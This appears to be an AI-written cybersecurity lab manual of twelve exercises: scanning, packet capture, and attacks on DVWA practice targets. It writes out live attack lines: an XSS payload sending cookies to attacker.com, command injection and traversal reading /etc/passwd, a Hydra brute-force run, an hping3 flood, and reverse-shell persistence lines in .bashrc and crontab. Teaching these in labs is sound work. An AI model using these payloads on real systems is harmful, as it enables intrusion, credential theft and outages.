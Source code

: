 # Cybersecurity Lab Manual

## Lab 1: Network Scanning with Nmap
### Objective:
Learn to discover hosts and services on a network using Nmap.

### Tools Required:
- Nmap
- Virtual Machine (Kali Linux or Parrot OS)

### Procedure:
1. Open the terminal in Kali.
2. Run `ifconfig` to get your IP address.
3. Identify your network range (e.g., 192.168.1.0/24).
4. Run a basic scan: `nmap -sP 192.168.1.0/24`
5. Run a detailed scan: `nmap -sS -sV -T4 192.168.1.0/24`
6. Save results: `nmap -oN scan_results.txt 192.168.1.0/24`

## Lab 2: Packet Analysis with Wireshark
### Objective:
Understand packet structures and analyze traffic.

### Procedure:
1. Open Wireshark and select the active network interface.
2. Start capturing packets.
3. Open a browser and visit a few websites.
4. Stop the capture and analyze protocols like TCP, HTTP.
5. Use filters like `http`, `tcp.port == 80` to narrow down traffic.
6. Export interesting packets.

## Lab 3: Vulnerability Scanning with OpenVAS
### Objective:
Scan for known vulnerabilities in a system.

### Procedure:
1. Install OpenVAS: `sudo gvm-setup`
2. Start services: `sudo gvm-start`
3. Access via browser: `https://localhost:9392`
4. Create a new target.
5. Launch a scan and review the report.

## Lab 4: Web Application Hacking (DVWA)
### Objective:
Practice common web vulnerabilities.

### Procedure:
1. Install XAMPP and DVWA.
2. Set security level to low.
3. Practice SQL Injection, XSS, CSRF.
4. Use Burp Suite to capture and modify requests.

## Lab 5: XSS (Cross-Site Scripting) on DVWA
### Objective:
Understand and exploit XSS vulnerabilities.

### Procedure:
1. Open DVWA and log in.
2. Set security level to low.
3. Navigate to the XSS (Reflected) section.
4. Enter payload: `<script>alert('XSS')</script>`
5. Observe the alert box.
6. Try variations like cookie stealing: `<script>document.location='http://attacker.com/?c='+document.cookie</script>`
7. Switch to stored XSS and repeat steps with message board.
8. Increase security level and bypass input filters.

## Lab 6: SQL Injection (DVWA + VulnLogin)
### Objective:
Exploit SQL vulnerabilities to access restricted data.

### Procedure:
1. Open VulnLogin in your browser.
2. Try payload: `' OR 1=1--`
3. Observe if you bypass login.
4. Use `sqlmap` to automate:
   - `sqlmap -u "http://localhost/vulnlogin/login.php" --data "username=admin&password=admin" --dump`
5. Practice with error-based and time-based injection.

## Lab 7: Brute Force Attack (DVWA + VulnLogin)
### Objective:
Use brute force to crack login credentials.

### Procedure:
1. Use Hydra:
   - `hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/vulnlogin/login.php:username=^USER^&password=^PASS^:Invalid"`
2. Try Burp Intruder to automate attack.
3. Observe success logins and analyze delays.

## Lab 8: Code Injection
### Objective:
Understand and exploit command injection flaws.

### Procedure:
1. Open DVWA -> Command Injection.
2. Input: `127.0.0.1; ls`
3. Try chained commands like `; cat /etc/passwd`
4. Understand filters and bypass techniques.
5. Practice privilege escalation scenarios.

## Lab 9: Directory Traversal
### Objective:
Access restricted files via path manipulation.

### Procedure:
1. Use DVWA or custom vulnerable server.
2. Input: `../../../../etc/passwd`
3. Try null byte attacks: `../../../../etc/passwd%00`
4. Bypass filters and explore log files.

## Lab 10: Denial of Service (DoS) Simulation
### Objective:
Simulate a basic DoS attack in a lab environment.

### Procedure:
1. Use `hping3` or `slowloris`.
2. Run: `hping3 -S -p 80 --flood <target-ip>`
3. Monitor resource usage on the target.
4. Ensure lab-only environment to avoid legal issues.

## Lab 11: Persistence on VM
### Objective:
Gain persistence after exploitation.

### Procedure:
1. Get reverse shell on victim VM (use msfvenom + listener).
2. Create a startup script: `echo "bash -i >& /dev/tcp/attacker/4444 0>&1" >> ~/.bashrc`
3. Alternatively, edit `crontab -e` and add:
   - `@reboot bash -i >& /dev/tcp/attacker/4444 0>&1`
4. Restart VM and test persistence.

## Lab 12: Website Code Modification
### Objective:
Deface a test web app (your own or DVWA) ethically.

### Procedure:
1. Navigate to the website's hosted directory.
2. Edit index.html or .php file: `nano index.php`
3. Change `<title>` and body content.
4. Save and refresh to see changes.
5. Restore the original after demo.

---

Let me know if you'd like to:
- Add more tools like Metasploit, Nikto, John the Ripper
- Include Windows-based forensics labs
- Bundle this manual as PDF with screenshots
- Create a report template for each lab

